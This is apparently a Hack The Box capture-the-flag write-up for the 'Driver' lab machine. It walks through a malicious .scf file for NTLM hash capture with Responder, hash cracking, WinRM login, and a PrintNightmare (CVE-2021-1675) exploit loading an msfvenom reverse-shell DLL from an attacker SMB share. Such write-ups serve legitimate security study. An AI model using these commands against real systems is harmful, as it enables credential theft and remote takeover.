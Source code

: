 # Driver Write-up - HTB

## Recon

Starting off with an all port syn scan:

```
sudo nmap -sS -Pn -n -p- 10.10.11.106 -oN all_syn_scan.txt 

#Output:
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
445/tcp  open  microsoft-ds
5985/tcp open  wsman
```

Now taking these and running a full vulnerability scan over it:

```
PORTS=$(grep "open" all_syn_scan.txt | awk -F '/' '{print $1}' | tr '\n' ',' | sed 's/,$//'); sudo nmap -sVC -Pn -n -p $PORTS 10.10.11.106 -oN nmap_svc_scan.txt

PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
135/tcp  open  msrpc        Microsoft Windows RPC
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows
```

HTTP and SMB seem to be our enumeration targets.

## Enumeration

### SMB:

Starting off with a quick smbclient null session:

<figure><img src="../.gitbook/assets/image (60).png" alt=""><figcaption></figcaption></figure>

It gets denied. Let's go on HTTP and see what's up.

### HTTP:

We get a login form, our real hekerman instincts type admin:admin and we get access! :dvd:

<figure><img src="../.gitbook/assets/image (61).png" alt=""><figcaption></figcaption></figure>

Well, after checking the web app, I found that it has upload function.

I checked for upload directory, but nothing. Although there is a clue.

<figure><img src="../.gitbook/assets/image (63).png" alt=""><figcaption></figcaption></figure>

## FOOTHOLDING

So, there is someone permanently opening these firmware files we send. I tried various methods with msfvenom and nc, but no shell was coming. So I realized, it must be .scf!

You might ask yourself why scf? Well when someone browses to a directory and a .scf is in it, it automatically reads it. It has been originally designed for Windows 95/98 for shortcut purposes.

So create our malicious .scf file:

```
[Shell]
Command=2
IconFile=\\10.10.X.X\share\icon.ico
```

Turn up Responder:

```
sudo responder -I tun0 -v
```

Upload the file on the web app.

Receive the hash!

<figure><img src="../.gitbook/assets/image (62).png" alt=""><figcaption></figcaption></figure>

Add the hash to a file and load-up hashcat on it:

```
hashcat -m 5600 tony.hash /home/czr/HTB/rockyou.txt
```

<figure><img src="../.gitbook/assets/image (64).png" alt=""><figcaption></figcaption></figure>

Cracked! tony:liltony. Remember WinRM is on, so let's use it to connect.

```
evil-winrm -i 10.10.11.106 -u tony -p liltony
```

<figure><img src="../.gitbook/assets/image (65).png" alt=""><figcaption></figcaption></figure>

## PrivEsc

Checking the powershell history, we can see:

```
cat C:\Users\tony\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

<figure><img src="../.gitbook/assets/image (66).png" alt=""><figcaption></figcaption></figure>

Now, let's check Printer Drivers:

```
Get-PrinterDriver | Format-List *
```

<figure><img src="../.gitbook/assets/image (67).png" alt=""><figcaption></figcaption></figure>

Smells like PrintNightmare.

I got this [PoC](https://github.com/cube0x0/CVE-2021-1675).

Craft a payload with msfvenom:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.8 LPORT=5555 -f dll -o evil.dll
```

Set-up a netcat listener.

Now, turn on smb server:

```
impacket-smbserver share $(pwd) -smb2support
```

Run the PoC:

```
python3 CVE-2021-1675.py 'tony:liltony@10.10.11.106' '\\10.10.16.8\share\evil.dll'
```

Mine threw some errors, but:

<figure><img src="../.gitbook/assets/image (161).png" alt=""><figcaption></figcaption></figure>
